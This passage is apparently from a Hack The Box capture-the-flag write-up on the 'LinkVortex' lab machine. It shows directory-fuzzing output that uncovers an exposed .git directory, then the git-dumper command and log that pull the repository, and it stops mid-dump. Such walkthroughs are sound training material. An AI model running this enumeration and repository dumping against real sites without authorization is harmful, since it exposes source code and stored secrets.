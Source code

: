 ```bash
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

index.html              [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 126ms]
.htaccess               [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 119ms]
.                       [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 117ms]
.html                   [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 119ms]
.htpasswd               [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 124ms]
.htm                    [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 120ms]
.git                    [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 120ms]
.htpasswds              [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 116ms]
.htgroup                [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 122ms]
.htaccess.bak           [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 120ms]
```

**🚨 .git Directory Found!**

We can use `git-dumper` to dump the code:

```bash
┌──(kali㉿kali)-[~/htb/boxes/linkvortex]
└─$ git-dumper http://dev.linkvortex.htb/ git_dump     
[-] Testing http://dev.linkvortex.htb/.git/HEAD [200]
[-] Testing http://dev.linkvortex.htb/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://dev.linkvortex.htb/.git/ [200]
[-] Fetching http://dev.linkvortex.htb/.gitignore [404]
[-] http://dev.linkvortex.htb/.gitignore responded with status code 404
[-] Fetching http://dev.linkvortex.htb/.git/refs/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/logs/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/HEAD [200]
[-] Fetching http://dev.linkvortex.htb/.git/shallow [200]
[-] Fetching http://dev.linkvortex.htb/.git/config [200]
[-] Fetching http://dev.linkvortex.htb/.git/description [200]
[-] Fetching http://dev.linkvortex.htb/.git/info/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/index [200]
[-] Fetching http://dev.linkvortex.htb/.git/packed-refs [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/tags/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/info/exclude [200]
[-] Fetching http://dev.linkvortex.htb/.git/logs/HEAD [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-commit.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/commit-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/post-update.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/fsmonitor-watchman.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-push.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-merge-commit.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/50/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/e6/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/push-to-checkout.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-receive.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/update.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/tags/v5.57.3 [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/pack/ [200]
```